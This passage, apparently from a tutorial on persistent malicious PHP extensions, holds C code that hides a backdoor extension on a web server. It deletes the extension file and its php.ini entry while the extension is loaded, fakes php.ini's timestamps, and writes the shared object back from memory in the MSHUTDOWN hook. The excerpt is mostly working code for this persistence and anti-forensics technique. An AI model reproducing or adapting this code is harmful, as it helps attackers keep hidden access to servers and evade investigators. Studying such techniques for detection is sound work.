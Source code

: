 ```c
    
    //4) Delete file
    remove(LOCATION);
    
    //5) Get timestamp
    stat(PHPINI, &st);

    //6) Modify php.ini and delete the extension line
    check = modifyExtension(1);
    if (check == -1) {
        fprintf(stderr, "[+] PHP.INI could not be edited\n");
    }
    else {
        fprintf(stderr, "[+] PHP.INI edited\n");
    }

    //7) Fake timestamp
    new_time.actime = st.st_atime;
    new_time.modtime = st.st_mtime;
    utime(PHPINI, &new_time);
...
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The next step is to use the MSHUTDOWN hook to write the shared object from memory to a file:
```c
PHP_MSHUTDOWN_FUNCTION(Allocer)
{
    // We write the file again, edit php.ini and fake the timestamp
    if (mapedFile == MAP_FAILED) {
        return SUCCESS;
    }
    
    int check;
    FILE *fp;
    struct utimbuf new_time;
    struct stat st;

    fp = fopen(LOCATION, "w");
    fwrite(mapedFile, 1, filesize, fp);
    fclose(fp);
    munmap(mapedFile, filesize);
    stat(PHPINI, &st);
    new_time.actime = st.st_atime;
    new_time.modtime = st.st_mtime;    
    
    check = modifyExtension(0);

    utime(PHPINI, &new_time);
    return SUCCESS;
}
```
